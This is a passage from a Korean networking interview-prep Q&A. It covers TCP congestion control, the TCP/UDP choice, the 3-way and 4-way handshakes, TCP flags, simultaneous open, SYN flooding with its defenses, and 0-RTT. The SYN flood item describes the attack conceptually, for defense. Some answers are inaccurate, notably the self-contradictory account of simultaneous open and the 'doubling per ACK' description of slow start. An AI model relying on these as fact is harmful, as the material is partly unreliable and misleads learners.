- **ACK**: 수신 확인 및 다음 기대 번호 통지
- **재전송**: 손실 복구 (RTO, Fast Retransmit)
- **중복 제거**: 중복 패킷 방지
- **Checksum**: 무결성 검증
- **종합**: 여러 메커니즘의 조합으로 신뢰성 보장

### NET-040
Q. TCP의 혼잡 제어 처리 방법에 대해 설명해 주세요.

**TCP 혼잡 제어(Congestion Control)**는 네트워크가 혼잡할 때 전송 속도를 조절하여 네트워크 안정성을 유지하는 메커니즘.

**목적:**
- 네트워크 혼잡 방지
- 공정한 대역폭 공유
- 네트워크 안정성 유지

**혼잡 감지 방법:**

**1. 패킷 손실 감지**
- 타임아웃 발생
- 중복 ACK 수신 (3개 이상)

**2. 명시적 혼잡 알림 (ECN)**
- 라우터가 혼잡 플래그 설정
- 수신자가 송신자에 알림

**주요 알고리즘:**

**1. Slow Start (느린 시작)**
- 연결 시작 시 혼잡 윈도우를 작게 시작
- ACK마다 윈도우 크기를 2배로 증가 (지수적 증가)
- 혼잡 임계값(ssthresh)에 도달하면 Congestion Avoidance로 전환

**2. Congestion Avoidance (혼잡 회피)**
- 혼잡 윈도우를 선형적으로 증가
- ACK마다 1/cwnd씩 증가 (가산적 증가)
- 패킷 손실 발생 시 혼잡 윈도우 감소

**3. Fast Retransmit (빠른 재전송)**
- 중복 ACK 3개 수신 시 즉시 재전송
- 타임아웃을 기다리지 않음

**4. Fast Recovery (빠른 복구)**
- Fast Retransmit 후 혼잡 윈도우를 절반으로 감소
- Congestion Avoidance 단계로 진입

```mermaid
graph TD
    A[연결 시작] --> B[Slow Start<br/>cwnd = 1]
    B --> C[ACK마다<br/>cwnd × 2]
    C --> D{cwnd >= ssthresh?}
    D -->|아니오| C
    D -->|예| E[Congestion Avoidance<br/>선형 증가]
    E --> F[ACK마다<br/>cwnd += 1/cwnd]
    F --> G{패킷 손실?}
    G -->|아니오| F
    G -->|예| H{중복 ACK 3개?}
    H -->|예| I[Fast Retransmit<br/>Fast Recovery]
    H -->|아니오| J[Timeout<br/>Slow Start 재시작]
    I --> K[ssthresh = cwnd/2<br/>cwnd = ssthresh]
    J --> L[ssthresh = cwnd/2<br/>cwnd = 1]
    K --> E
    L --> B
    
    style B fill:#ffcc99
    style E fill:#99ff99
    style I fill:#ff9999
```

**AIMD (Additive Increase Multiplicative Decrease):**

**증가 (Congestion Avoidance):**
```
cwnd += 1/cwnd (ACK마다)
→ 선형적 증가
```

**감소 (패킷 손실 시):**
```
cwnd = cwnd / 2
→ 지수적 감소
```

**결과**: 공정한 대역폭 공유

**혼잡 윈도우 (cwnd) 변화:**

```
시간
  |
  |     /\
  |    /  \
  |   /    \    /\
  |  /      \  /  \
  | /        \/    \
  |/                \
  +-------------------> 패킷 수
  Slow Start  CA  Fast Recovery
```

**실제 동작:**

**1. Slow Start 단계:**
```
cwnd = 1
전송: 1개 패킷
ACK 수신 → cwnd = 2
전송: 2개 패킷
ACK 2개 수신 → cwnd = 4
전송: 4개 패킷
...
```

**2. Congestion Avoidance 단계:**
```
cwnd = ssthresh (예: 16)
전송: 16개 패킷
ACK 16개 수신 → cwnd = 16 + 1/16 ≈ 16
전송: 16개 패킷
ACK 16개 수신 → cwnd = 16 + 1/16 ≈ 16
...
(매우 느리게 증가)
```

**3. 패킷 손실 발생:**
```
중복 ACK 3개 수신
→ Fast Retransmit
→ ssthresh = cwnd / 2
→ cwnd = ssthresh
→ Congestion Avoidance로 전환
```

**개선된 알고리즘:**

**1. TCP Reno**
- Fast Retransmit + Fast Recovery
- 현재 대부분의 TCP 구현

**2. TCP NewReno**
- 여러 패킷 손실 처리 개선
- Fast Recovery 중 추가 손실 처리

**3. TCP CUBIC**
- 고속 네트워크에 최적화
- 큐빅 함수 기반

**4. BBR (Bottleneck Bandwidth and Round-trip propagation time)**
- Google이 개발
- 대역폭과 RTT 기반

**혼잡 제어 파라미터:**

- **cwnd (Congestion Window)**: 혼잡 윈도우 크기
- **ssthresh (Slow Start Threshold)**: Slow Start 임계값
- **RTT (Round Trip Time)**: 왕복 시간
- **RTO (Retransmission Timeout)**: 재전송 타임아웃

**결론:**
- **Slow Start**: 연결 시작 시 지수적 증가
- **Congestion Avoidance**: 혼잡 회피를 위한 선형 증가
- **Fast Retransmit/Recovery**: 빠른 손실 복구
- **AIMD**: 공정한 대역폭 공유
- **목적**: 네트워크 안정성과 공정성 유지

### NET-041
Q. 본인이 새로운 통신 프로토콜을 TCP나 UDP를 사용해서 구현한다고 하면, 어떤 기준으로 프로토콜을 선택하시겠어요?

**애플리케이션의 요구사항에 따라 선택 기준이 달라짐.**

**선택 기준:**

**1. 신뢰성 요구사항**

**TCP 선택:**
- 데이터 손실이 치명적인 경우
- 모든 데이터가 순서대로 도착해야 하는 경우
- 예: 파일 전송, 데이터베이스 동기화, 금융 거래

**UDP 선택:**
- 일부 데이터 손실이 허용되는 경우
- 순서가 중요하지 않은 경우
- 예: 실시간 스트리밍, 게임, VoIP

**2. 지연 시간 (Latency) 요구사항**

**TCP 선택:**
- 지연 시간이 중요하지 않은 경우
- 예: 파일 다운로드, 이메일 전송

**UDP 선택:**
- 낮은 지연 시간이 필수인 경우
- 예: 온라인 게임, 실시간 통화, 라이브 스트리밍

**3. 처리량 (Throughput) 요구사항**

**TCP 선택:**
- 높은 처리량이 필요한 경우 (대용량 데이터)
- 예: 비디오 파일 다운로드, 백업

**UDP 선택:**
- 실시간성이 처리량보다 중요한 경우
- 예: 실시간 비디오 스트리밍

**4. 연결 관리**

**TCP 선택:**
- 연결 상태 관리가 필요한 경우
- 예: 세션 관리, 상태 기반 통신

**UDP 선택:**
- 상태 없는 통신이 필요한 경우
- 예: DNS 쿼리, 서비스 발견

**5. 네트워크 환경**

**TCP 선택:**
- 안정적인 네트워크 환경
- 예: 유선 네트워크, 데이터 센터

**UDP 선택:**
- 불안정한 네트워크 환경 (일부 손실 허용)
- 예: 무선 네트워크, 모바일 환경

```mermaid
graph TD
    A[프로토콜 선택] --> B{신뢰성 필수?}
    B -->|예| C[TCP 선택]
    B -->|아니오| D{지연 시간 중요?}
    D -->|예| E[UDP 선택]
    D -->|아니오| F{처리량 중요?}
    F -->|예| C
    F -->|아니오| G{연결 관리 필요?}
    G -->|예| C
    G -->|아니오| E
    
    C --> H[파일 전송<br/>웹 서비스<br/>데이터베이스]
    E --> I[게임<br/>스트리밍<br/>VoIP]
    
    style C fill:#99ff99
    style E fill:#ffcc99
```

**의사결정 트리:**

**TCP를 선택하는 경우:**
- ✅ 데이터 무결성이 필수
- ✅ 순서 보장이 필요
- ✅ 연결 상태 관리 필요
- ✅ 높은 처리량 필요
- ❌ 지연 시간이 중요하지 않음

**UDP를 선택하는 경우:**
- ✅ 낮은 지연 시간 필수
- ✅ 일부 데이터 손실 허용
- ✅ 순서가 중요하지 않음
- ✅ 상태 없는 통신
- ❌ 신뢰성보다 속도가 중요

**하이브리드 접근:**

**UDP + 애플리케이션 레벨 신뢰성:**
- UDP 사용하되 애플리케이션에서 신뢰성 구현
- 예: QUIC (HTTP/3), 게임 프로토콜

**장점:**
- UDP의 낮은 지연 시간
- 필요한 부분만 신뢰성 보장
- 커스터마이징 가능

**실제 사례:**

**TCP 사용:**
- **HTTP/HTTPS**: 웹 브라우징
- **FTP**: 파일 전송
- **SMTP**: 이메일
- **SSH**: 원격 접속
- **데이터베이스 연결**: MySQL, PostgreSQL

**UDP 사용:**
- **DNS**: 빠른 쿼리 응답
- **DHCP**: 로컬 네트워크 설정
- **게임**: 낮은 지연 시간
- **VoIP**: 실시간 음성 통화
- **스트리밍**: 실시간 비디오

**UDP + 신뢰성:**
- **QUIC**: HTTP/3 (UDP 기반, 신뢰성 구현)
- **게임 프로토콜**: UDP + 애플리케이션 레벨 재전송

**체크리스트:**

**TCP 선택 체크리스트:**
- [ ] 데이터 손실이 치명적인가?
- [ ] 순서 보장이 필요한가?
- [ ] 연결 상태 관리가 필요한가?
- [ ] 지연 시간이 중요하지 않은가?

**UDP 선택 체크리스트:**
- [ ] 낮은 지연 시간이 필수인가?
- [ ] 일부 데이터 손실이 허용되는가?
- [ ] 순서가 중요하지 않은가?
- [ ] 상태 없는 통신이 필요한가?

**결론:**
- **신뢰성 우선**: TCP
- **지연 시간 우선**: UDP
- **하이브리드**: UDP + 애플리케이션 레벨 신뢰성
- **선택 기준**: 애플리케이션의 요구사항과 트레이드오프 고려

---

## 📌 3-Way / 4-Way Handshake

### NET-042
Q. 3-Way Handshake에 대해 설명해 주세요.

**3-Way Handshake**는 TCP 연결을 설정하는 과정으로, 클라이언트와 서버가 서로의 연결 가능성을 확인하는 3단계 절차.

**과정:**

**1단계: SYN (Synchronize)**
- 클라이언트가 서버에 연결 요청
- SYN 플래그 설정, 초기 순서 번호(ISN) 포함
- 클라이언트 상태: SYN_SENT

**2단계: SYN-ACK**
- 서버가 연결 요청 수락
- SYN과 ACK 플래그 설정
- 서버의 ISN과 클라이언트 ISN에 대한 ACK 포함
- 서버 상태: SYN_RECEIVED

**3단계: ACK (Acknowledgment)**
- 클라이언트가 서버의 응답 확인
- ACK 플래그 설정
- 서버 ISN에 대한 ACK 포함
- 양쪽 상태: ESTABLISHED (연결 완료)

```mermaid
sequenceDiagram
    participant C as 클라이언트
    participant S as 서버
    
    Note over C: SYN_SENT
    C->>S: SYN (Seq=x)
    Note over S: SYN_RECEIVED
    S->>C: SYN-ACK (Seq=y, ACK=x+1)
    Note over C: ESTABLISHED
    C->>S: ACK (ACK=y+1)
    Note over S: ESTABLISHED
    Note over C,S: 연결 완료, 데이터 전송 가능
```

**상세 설명:**

**1단계: 클라이언트 → 서버**
```
SYN 플래그 = 1
순서 번호 (Seq) = x (초기 순서 번호, ISN)
확인 응답 번호 (ACK) = 0
```

**2단계: 서버 → 클라이언트**
```
SYN 플래그 = 1
ACK 플래그 = 1
순서 번호 (Seq) = y (서버의 ISN)
확인 응답 번호 (ACK) = x + 1
```

**3단계: 클라이언트 → 서버**
```
ACK 플래그 = 1
순서 번호 (Seq) = x + 1
확인 응답 번호 (ACK) = y + 1
```

**목적:**

**1. 연결 가능성 확인**
- 양쪽 모두 연결 가능한지 확인
- 네트워크 경로 확인

**2. 순서 번호 동기화**
- 양쪽의 초기 순서 번호 교환
- 데이터 전송 순서 보장

**3. 신뢰성 보장**
- 양방향 통신 가능 확인
- 연결 설정의 신뢰성 보장

**시간 소요:**
- 일반적으로 1 RTT (Round Trip Time)
- 네트워크 지연에 따라 다름

**결론:**
- **3-Way Handshake**: TCP 연결 설정 과정
- **단계**: SYN → SYN-ACK → ACK
- **목적**: 연결 가능성 확인, 순서 번호 동기화
- **시간**: 약 1 RTT

### NET-043
Q. ACK, SYN 같은 정보는 어떻게 전달하는 것 일까요?

**ACK, SYN 등의 정보는 TCP 헤더의 플래그(Flag) 필드를 통해 전달됨.**

**TCP 헤더 구조:**

**플래그 필드 (6비트):**
- 각 비트가 하나의 플래그
- 0 또는 1로 설정
- 여러 플래그 동시 설정 가능

**주요 플래그:**

**1. SYN (Synchronize)**
- 연결 요청/수락
- 순서 번호 동기화

**2. ACK (Acknowledgment)**
- 확인 응답
- 데이터 수신 확인

**3. FIN (Finish)**
- 연결 종료 요청

**4. RST (Reset)**
- 연결 강제 종료

**5. PSH (Push)**
- 즉시 전송 요청

**6. URG (Urgent)**
- 긴급 데이터

```mermaid
graph TD
    A[TCP 헤더] --> B[플래그 필드<br/>6비트]
    B --> C[SYN<br/>연결 요청]
    B --> D[ACK<br/>확인 응답]
    B --> E[FIN<br/>종료 요청]
    B --> F[RST<br/>강제 종료]
    B --> G[PSH<br/>즉시 전송]
    B --> H[URG<br/>긴급 데이터]
    
    style B fill:#ff9999
```

**TCP 헤더 구조:**

```
0                   1                   2                   3
0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|          Source Port          |       Destination Port        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                        Sequence Number                          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    Acknowledgment Number                        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|  Data |           |U|A|P|R|S|F|                               |
| Offset| Reserved  |R|C|S|S|Y|I|            Window              |
|       |           |G|K|H|T|N|N|                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|           Checksum            |         Urgent Pointer        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

**플래그 비트 위치:**
- URG (비트 5)
- ACK (비트 4)
- PSH (비트 3)
- RST (비트 2)
- SYN (비트 1)
- FIN (비트 0)

**실제 전달:**

**SYN 패킷:**
```
플래그 필드: 000010 (SYN=1, 나머지=0)
→ 이진수로 전송
→ 수신자가 비트 확인
```

**SYN-ACK 패킷:**
```
플래그 필드: 000110 (SYN=1, ACK=1, 나머지=0)
→ SYN과 ACK 동시 설정
```

**ACK 패킷:**
```
플래그 필드: 000100 (ACK=1, 나머지=0)
```

**비트 조작:**

**설정:**
```c
// SYN 플래그 설정
tcp_header->flags |= TCP_SYN;

// ACK 플래그 설정
tcp_header->flags |= TCP_ACK;

// 여러 플래그 동시 설정
tcp_header->flags = TCP_SYN | TCP_ACK;
```

**확인:**
```c
// SYN 플래그 확인
if (tcp_header->flags & TCP_SYN) {
    // SYN 패킷 처리
}

// ACK 플래그 확인
if (tcp_header->flags & TCP_ACK) {
    // ACK 패킷 처리
}
```

**네트워크 전송:**

**패킷 구조:**
```
[이더넷 헤더] [IP 헤더] [TCP 헤더] [데이터]
                ↓
          플래그 필드 포함
                ↓
        네트워크로 전송
```

**수신 측 처리:**
```
1. 패킷 수신
2. TCP 헤더 파싱
3. 플래그 필드 확인
4. 플래그에 따라 처리
```

**결론:**
- **전달 방법**: TCP 헤더의 플래그 필드 (6비트)
- **비트 단위**: 각 플래그가 1비트
- **동시 설정**: 여러 플래그 동시 설정 가능
- **전송**: 이진수로 네트워크 전송
- **처리**: 수신자가 비트 확인하여 처리

### NET-044
Q. 2-Way Handshaking 를 하지않는 이유에 대해 설명해 주세요.

**2-Way Handshake를 사용하지 않는 이유는 연결의 신뢰성을 보장할 수 없기 때문.**

**2-Way Handshake의 문제:**

**1. 오래된 연결 요청 (Old Duplicate)**
- 네트워크 지연으로 오래된 SYN 패킷 도착
- 서버가 오래된 연결로 착각
- 잘못된 연결 설정

**2. 양방향 통신 확인 불가**
- 클라이언트 → 서버 경로만 확인
- 서버 → 클라이언트 경로 미확인
- 일방향 통신 가능성

**3. 순서 번호 동기화 불완전**
- 클라이언트의 순서 번호만 확인
- 서버의 순서 번호 미확인
- 데이터 전송 문제 가능

```mermaid
sequenceDiagram
    participant C as 클라이언트
    participant S as 서버
    
    Note over C: 2-Way Handshake (문제)
    C->>S: SYN (Seq=x)
    S->>C: SYN-ACK (Seq=y, ACK=x+1)
    Note over C: 연결 완료로 착각
    Note over C,S: 서버 응답 확인 안 됨
    
    Note over C: 3-Way Handshake (해결)
    C->>S: SYN (Seq=x)
    S->>C: SYN-ACK (Seq=y, ACK=x+1)
    C->>S: ACK (ACK=y+1)
    Note over C,S: 양방향 확인 완료
```

**문제 시나리오:**

**오래된 SYN 패킷:**
```
1. 클라이언트: 연결 요청 (Seq=100)
2. 네트워크 지연으로 패킷 손실
3. 클라이언트: 재요청 (Seq=200)
4. 서버: 새 연결 수락 (Seq=200 기대)
5. 오래된 패킷 도착 (Seq=100)
6. 서버: 오래된 연결로 착각
→ 잘못된 연결 설정
```

**3-Way Handshake 해결:**
```
1. 클라이언트: SYN (Seq=100)
2. 서버: SYN-ACK (Seq=y, ACK=101)
3. 오래된 패킷 도착
4. 클라이언트: ACK (ACK=y+1) 없음
5. 서버: 연결 설정 안 됨
→ 오래된 연결 방지
```

**양방향 통신 확인:**

**2-Way Handshake:**
```
클라이언트 → 서버: 확인됨
서버 → 클라이언트: 확인 안 됨
→ 일방향 통신 가능
```

**3-Way Handshake:**
```
클라이언트 → 서버: 확인됨 (1단계)
서버 → 클라이언트: 확인됨 (2단계)
클라이언트 → 서버: 확인됨 (3단계)
→ 양방향 통신 확인
```

**순서 번호 동기화:**

**2-Way Handshake:**
```
클라이언트 ISN: 확인됨
서버 ISN: 확인 안 됨
→ 서버의 순서 번호 불확실
```

**3-Way Handshake:**
```
클라이언트 ISN: 확인됨
서버 ISN: 확인됨
→ 양쪽 순서 번호 모두 확인
```

**실제 문제:**

**타임아웃 후 재연결:**
```
1. 연결 시도 (Seq=100)
2. 타임아웃
3. 재연결 시도 (Seq=200)
4. 오래된 SYN(Seq=100) 도착
→ 2-Way: 잘못된 연결
→ 3-Way: ACK 없어서 연결 안 됨
```

**결론:**
- **2-Way 문제**: 오래된 연결, 양방향 미확인, 순서 번호 불완전
- **3-Way 해결**: 오래된 연결 방지, 양방향 확인, 순서 번호 동기화
- **필요성**: 신뢰성 있는 연결 설정을 위해 3-Way 필수

### NET-045
Q. 두 호스트가 동시에 연결을 시도하면, 연결이 가능한가요? 가능하다면 어떻게 통신 연결을 수행하나요?

**가능함. 두 호스트가 동시에 연결을 시도해도 정상적으로 연결됨.**

**동시 연결 시도:**

**시나리오:**
```
호스트 A: 호스트 B에 연결 시도
호스트 B: 호스트 A에 연결 시도
→ 동시에 SYN 전송
```

**처리 과정:**

**1. 양쪽 모두 SYN 전송**
```
호스트 A → 호스트 B: SYN (Seq=x, Port=50000)
호스트 B → 호스트 A: SYN (Seq=y, Port=50001)
→ 동시에 전송
```

**2. 양쪽 모두 SYN-ACK 수신**
```
호스트 A ← 호스트 B: SYN-ACK (Seq=y, ACK=x+1)
호스트 B ← 호스트 A: SYN-ACK (Seq=x, ACK=y+1)
→ 각각의 SYN에 대한 응답
```

**3. 양쪽 모두 ACK 전송**
```
호스트 A → 호스트 B: ACK (ACK=y+1)
호스트 B → 호스트 A: ACK (ACK=x+1)
→ 연결 완료
```

```mermaid
sequenceDiagram
    participant A as 호스트 A
    participant B as 호스트 B
    
    par 동시 연결 시도
        A->>B: SYN (Seq=x, Port=50000)
        B->>A: SYN (Seq=y, Port=50001)
    end
    
    A->>B: SYN-ACK (Seq=x, ACK=y+1)
    B->>A: SYN-ACK (Seq=y, ACK=x+1)
    
    A->>B: ACK (ACK=y+1)
    B->>A: ACK (ACK=x+1)
    
    Note over A,B: 두 개의 연결 설정 완료
```

**중요한 점:**

**1. 서로 다른 포트 사용**
- 호스트 A: 클라이언트 포트 (예: 50000)
- 호스트 B: 클라이언트 포트 (예: 50001)
- 서로 다른 소켓 쌍

**2. 두 개의 연결 생성**
- A → B 연결
- B → A 연결
- 실제로는 하나의 양방향 연결

**3. 소켓 쌍 (Socket Pair)**
```
연결 = (Source IP, Source Port, Dest IP, Dest Port)
→ 양쪽이 다른 포트 사용
→ 서로 다른 연결로 인식
```

**실제 동작:**

**TCP의 처리:**
- 각 SYN을 독립적으로 처리
- 서로 다른 순서 번호 사용
- 양방향 연결로 통합

**포트 할당:**
```
호스트 A: 
  - 로컬 포트: 50000 (임시 포트)
  - 원격 포트: 80 (서버 포트)

호스트 B:
  - 로컬 포트: 50001 (임시 포트)
  - 원격 포트: 80 (서버 포트)
```

**연결 통합:**

**실제로는:**
- 두 개의 단방향 연결이 아님
- 하나의 양방향 연결
- 양쪽 모두 클라이언트이자 서버

**예시:**

**동시 연결:**
```
시간 T1:
  A → B: SYN (Seq=100, Port=50000)
  B → A: SYN (Seq=200, Port=50001)

시간 T2:
  A ← B: SYN-ACK (Seq=200, ACK=101)
  B ← A: SYN-ACK (Seq=100, ACK=201)

시간 T3:
  A → B: ACK (ACK=201)
  B → A: ACK (ACK=101)

→ 연결 완료
```

**결론:**
- **가능함**: 두 호스트가 동시에 연결 시도 가능
- **처리**: 각 SYN을 독립적으로 처리
- **결과**: 하나의 양방향 연결 생성
- **포트**: 서로 다른 포트 사용
- **특징**: TCP가 자동으로 처리

### NET-046
Q. SYN Flooding 에 대해 설명해 주세요.

**SYN Flooding**은 TCP의 3-Way Handshake 취약점을 이용한 DDoS 공격.

**공격 원리:**

**정상적인 연결:**
```
1. 클라이언트: SYN 전송
2. 서버: SYN-ACK 전송, 연결 정보 저장 (SYN_RECEIVED)
3. 클라이언트: ACK 전송
4. 연결 완료
```

**SYN Flooding 공격:**
```
1. 공격자: 대량의 SYN 전송 (가짜 IP 주소)
2. 서버: 각 SYN에 대해 SYN-ACK 전송, 연결 정보 저장
3. 공격자: ACK 전송 안 함 (가짜 IP이므로 응답 없음)
4. 서버: 연결 정보가 계속 쌓임 (타임아웃까지 대기)
5. 서버: 리소스 고갈
```

```mermaid
graph TD
    A[공격자] --> B[대량의 SYN 전송<br/>가짜 IP 주소]
    B --> C[서버]
    C --> D[SYN-ACK 전송<br/>연결 정보 저장]
    D --> E[ACK 없음<br/>가짜 IP]
    E --> F[연결 정보 쌓임<br/>리소스 고갈]
    
    style A fill:#ff9999
    style F fill:#ff9999
```

**공격 특징:**

**1. 가짜 IP 주소 사용**
- 실제 존재하지 않는 IP
- 또는 다른 사람의 IP (IP 스푸핑)
- ACK 응답 불가능

**2. 대량의 SYN 전송**
- 짧은 시간에 많은 SYN
- 서버의 연결 큐 포화
- 정상 사용자 접속 불가

**3. 리소스 고갈**
- 서버 메모리에 연결 정보 저장
- 타임아웃까지 대기 (보통 30초~2분)
- 메모리 부족

**서버 측 문제:**

**SYN_RECEIVED 상태:**
- 서버가 연결 정보를 메모리에 저장
- ACK를 기다리는 상태
- 타임아웃까지 유지

**리소스 제한:**
- 최대 동시 연결 수 제한
- SYN 큐 크기 제한
- 공격 시 빠르게 포화

**방어 방법:**

**1. SYN Cookie**
- 서버가 연결 정보를 저장하지 않음
- 쿠키 기반으로 검증
- ACK 수신 시에만 연결 생성

**2. 연결 수 제한**
- IP당 최대 연결 수 제한
- Rate Limiting

**3. 방화벽/IDS**
- 의심스러운 트래픽 차단
- DDoS 방어 시스템

**4. 타임아웃 단축**
- SYN_RECEIVED 상태 유지 시간 단축
- 빠른 정리

**SYN Cookie 동작:**

**1. SYN 수신:**
```
서버: SYN Cookie 생성 (암호화된 값)
서버: SYN-ACK 전송 (Cookie 포함)
서버: 연결 정보 저장 안 함
```

**2. ACK 수신:**
```
서버: Cookie 검증
서버: 검증 성공 시 연결 생성
서버: 검증 실패 시 무시
```

**장점:**
- 메모리 사용 없음
- 공격에 강함
- 정상 사용자는 영향 없음

**실제 방어:**

**Linux 설정:**
```bash
# SYN Cookie 활성화
sysctl -w net.ipv4.tcp_syncookies=1

# SYN 큐 크기 조정
sysctl -w net.ipv4.tcp_max_syn_backlog=2048
```

**결론:**
- **SYN Flooding**: DDoS 공격, 가짜 SYN으로 리소스 고갈
- **원리**: 서버가 연결 정보 저장, ACK 없어서 쌓임
- **방어**: SYN Cookie, 연결 수 제한, 방화벽
- **목적**: 서버 리소스 고갈, 서비스 중단

### NET-047
Q. 위 질문과 모순될 수 있지만, 3-Way Handshake의 속도 문제 때문에 이동 수를 줄이는 0-RTT 기법을 많이 적용하고 있습니다. 어떤 방식으로 가능한 걸까요?

**0-RTT (Zero Round Trip Time)**는 이전 연결 정보를 재사용하여 연결 설정을 생략하는 기법.**

**3-Way Handshake의 문제:**
- 연결 설정에 1 RTT 필요
- 첫 데이터 전송까지 지연
- 성능 저하

**0-RTT의 원리:**

**1. 이전 연결 정보 재사용**
- 이전에 연결했던 서버 정보 저장
- 서버의 공개키, 세션 정보 등
- 클라이언트에 캐시

**2. 연결 설정 생략**
- 저장된 정보로 즉시 데이터 전송
- 서버가 이전 연결 정보로 검증
- 0 RTT로 통신 시작

**3. 보안 고려**
- 암호화된 세션 정보 사용
- 재생 공격 방지
- Forward Secrecy 고려

```mermaid
sequenceDiagram
    participant C as 클라이언트
    participant S as 서버
    
    Note over C: 첫 연결
    C->>S: ClientHello
    S->>C: ServerHello + 인증서
    C->>S: 키 교환
    Note over C: 세션 정보 저장
    
    Note over C: 재연결 (0-RTT)
    C->>S: ClientHello + 데이터<br/>(저장된 세션 정보)
    S->>C: 데이터 응답
    Note over C,S: 연결 설정 생략, 즉시 통신
```

**구현 방법:**

**1. TLS Session Resumption**
- 이전 TLS 세션 정보 재사용
- Session ID 또는 Session Ticket
- 빠른 재연결

**2. QUIC 0-RTT**
- 이전 연결의 암호화 키 재사용
- 연결 설정 없이 데이터 전송
- HTTP/3에서 사용

**3. TCP Fast Open (TFO)**
- TCP 레벨에서 0-RTT
- SYN 패킷에 데이터 포함
- 제한적 사용

**TLS Session Resumption:**

**첫 연결:**
```
1. ClientHello
2. ServerHello + Session Ticket
3. 키 교환
4. 데이터 전송
→ Session Ticket 저장
```

**재연결 (0-RTT):**
```
1. ClientHello + Session Ticket + 데이터
2. 서버: Session Ticket 검증
3. 서버: 데이터 응답
→ 연결 설정 생략
```

**QUIC 0-RTT:**

**원리:**
- 이전 연결의 암호화 키 저장
- 새 연결에서 즉시 사용
- 연결 설정 없이 데이터 전송

**과정:**
```
1. 클라이언트: 이전 연결 정보로 데이터 암호화
2. 클라이언트: 암호화된 데이터 전송
3. 서버: 이전 연결 정보로 복호화
4. 서버: 데이터 처리 및 응답
```

**보안 고려사항:**

**1. 재생 공격 (Replay Attack)**
- 공격자가 이전 요청 재전송
- 서버가 중복 처리
- Nonce, 타임스탬프 사용

**2. Forward Secrecy**
- 이전 키 유출 시 문제
- 제한된 시간만 사용
- 주기적 키 갱신

**3. 인증 강화**
- 0-RTT 데이터는 제한적
- 중요한 작업은 1-RTT 필요
- 서버 정책에 따라 결정

**실제 사용:**

**HTTP/3 (QUIC):**
```
첫 연결: 1-RTT
재연결: 0-RTT (이전 연결 정보 재사용)
```

**TLS 1.3:**
```
Session Resumption으로 0-RTT 가능
보안 정책에 따라 제한
```

**성능 비교:**

**3-Way Handshake:**
```
연결 설정: 1 RTT
첫 데이터: 1 RTT 후
총: 1 RTT
```

**0-RTT:**
```
연결 설정: 0 RTT (생략)
첫 데이터: 즉시
총: 0 RTT
```

**제한사항:**

**1. 첫 연결은 불가능**
- 이전 연결 정보 필요
- 첫 연결은 여전히 1-RTT

**2. 보안 제한**
- 재생 공격 위험
- 중요한 작업은 1-RTT 필요

**3. 서버 지원 필요**
- 서버가 0-RTT 지원해야 함
- 모든 서버가 지원하지 않음

**결론:**
- **0-RTT**: 이전 연결 정보 재사용으로 연결 설정 생략
- **방법**: TLS Session Resumption, QUIC, TCP Fast Open
- **장점**: 빠른 연결, 지연 감소
- **제한**: 첫 연결 불가, 보안 고려 필요
- **사용**: HTTP/3, TLS 1.3 등

### NET-048
Q. 4-Way Handshake에 대해 설명해 주세요.

**4-Way Handshake**는 TCP 연결을 종료하는 과정으로, 양쪽 모두 연결 종료를 확인하는 4단계 절차.

**과정:**

**1단계: FIN (Finish)**
- 한쪽이 연결 종료 요청
- FIN 플래그 설정
- 상태: FIN_WAIT_1

**2단계: ACK**
- 상대방이 종료 요청 확인
- ACK 플래그 설정
- 상태: CLOSE_WAIT (수신자), FIN_WAIT_2 (송신자)

**3단계: FIN**
- 상대방도 종료 요청
- FIN 플래그 설정
- 상태: LAST_ACK

**4단계: ACK**
- 종료 요청 확인
- ACK 플래그 설정
- 상태: TIME_WAIT → CLOSED

```mermaid
sequenceDiagram
    participant A as 클라이언트
    participant B as 서버
    
    Note over A: FIN_WAIT_1
    A->>B: FIN (연결 종료 요청)
    Note over B: CLOSE_WAIT
    B->>A: ACK (종료 요청 확인)
    Note over A: FIN_WAIT_2
    Note over B: LAST_ACK
    B->>A: FIN (연결 종료 요청)
    Note over A: TIME_WAIT
    A->>B: ACK (종료 요청 확인)
    Note over B: CLOSED
    Note over A: TIME_WAIT (2MSL 대기)
    Note over A: CLOSED
```

**상세 설명:**

**1단계: 클라이언트 → 서버**
```
FIN 플래그 = 1
순서 번호 = x
→ 연결 종료 요청
```

**2단계: 서버 → 클라이언트**
```
ACK 플래그 = 1
확인 응답 번호 = x + 1
→ 종료 요청 확인
→ 서버는 아직 데이터 전송 가능
```

**3단계: 서버 → 클라이언트**
```
FIN 플래그 = 1
순서 번호 = y
→ 서버도 종료 요청
```

**4단계: 클라이언트 → 서버**
```
ACK 플래그 = 1
확인 응답 번호 = y + 1
→ 종료 요청 확인
→ TIME_WAIT 상태로 대기
```

**상태 변화:**

**클라이언트:**
```
ESTABLISHED
  → FIN 전송
FIN_WAIT_1
  → ACK 수신
FIN_WAIT_2
  → FIN 수신
TIME_WAIT
  → 2MSL 대기
CLOSED
```

**서버:**
```
ESTABLISHED
  → FIN 수신
CLOSE_WAIT
  → FIN 전송
LAST_ACK
  → ACK 수신
CLOSED
```

**왜 4단계인가:**

**양방향 종료:**
- TCP는 양방향 통신
- 각 방향을 독립적으로 종료
- 양쪽 모두 종료 확인 필요

**2단계로 불가능한 이유:**
- 한쪽만 종료하면 반대 방향 통신 불가
- 데이터 손실 가능
- 양방향 종료 필요

**실제 예시:**

**정상 종료:**
```
클라이언트: "연결 종료하겠습니다" (FIN)
서버: "알겠습니다" (ACK)
서버: "저도 종료하겠습니다" (FIN)
클라이언트: "알겠습니다" (ACK)
→ 종료 완료
```

**비정상 종료:**
```
클라이언트: FIN 전송
서버: 응답 없음
→ 타임아웃 후 강제 종료
```

**결론:**
- **4-Way Handshake**: TCP 연결 종료 과정
- **단계**: FIN → ACK → FIN → ACK
